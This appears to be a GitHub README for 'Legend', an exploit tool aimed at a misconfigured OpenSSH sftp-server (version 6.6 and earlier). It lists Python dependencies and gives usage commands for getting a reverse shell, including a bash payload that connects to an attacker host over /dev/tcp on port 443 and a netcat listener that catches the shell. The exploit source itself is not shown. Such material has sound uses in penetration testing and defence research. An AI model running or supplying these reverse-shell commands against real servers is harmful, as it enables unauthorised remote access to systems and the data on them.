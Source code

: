 # Legend
OpenSSH &lt;= 6.6 SFTP (sftp-server) misconfiguration exploit



## Dependencies
pip3 install paramiko

pip3 install --upgrade git+https://github.com/arthaud/python3-pwntools.git



## Usage
Reverse shell with python
```sh
./legend.py -r $sftp_ip -p $sftp_port -u $sftp_user -P $sftp_pass -b "$your_ip $your_port"
```

Reverse shell with bash
```sh
./legend.py -r 1.1.1.1 -p 22 -u user -P pass -c "/bin/bash -pi >& /dev/tcp/2.2.2.2/443 0>&1"
```

Listening on $your_port
```
sudo nc -nlvp 443
```
